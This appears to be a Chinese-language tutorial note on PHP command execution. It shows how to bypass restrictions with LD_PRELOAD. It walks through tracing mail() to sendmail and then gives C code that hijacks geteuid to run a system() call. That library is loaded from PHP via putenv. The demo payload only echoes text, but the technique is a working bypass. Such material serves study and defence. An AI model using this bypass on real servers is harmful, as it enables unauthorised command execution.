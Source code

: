 ## LD_PRELOAD绕过

```
LD_PRELOAD可以修改库文件，影响程序运行时的链接，它允许你定义在程序运行前优先加载的动态链接库。
这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。
通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。
使用自己的或是更好的函数(无需别人的源码)也可以向别人的程序注入恶意程序
```

mail

```shell
vim demo.php

<?php
mail('','','','');
?>

strace -o 1.txt -f php demo.php

把demo.php执行的动作，以文本形式放在1.txt

cat 1.txt | grep execve

检查调用了哪些子程序

readelf -Ws /usr/sbin/sendmail

查看sendmail调用了哪些库文件
```

![image-20240314000958614](PHP命令执行.assets/image-20240314000958614.png)

```shell
vim demo.c

#include<stdlib.h>
#include<stdio.h>
#include<string.h>
void payload(){
	system("echo '小可爱，你邮件还能发出去么？'");
}
int geteuid(){               //生成动作geteuid，执行payload
	unsetenv("LD_PRELOAD");  //结束调用
	payload();
}

gcc -shared -fPIC demo.c -o demo.so

将带有命令的c文件编译成.so文件，生成动态链接库文件

vim demo.php

<?php
putenv("LD_PRELOAD=./demo.so"); //加载动态链接库demo.so
mail('','','','');
?>
```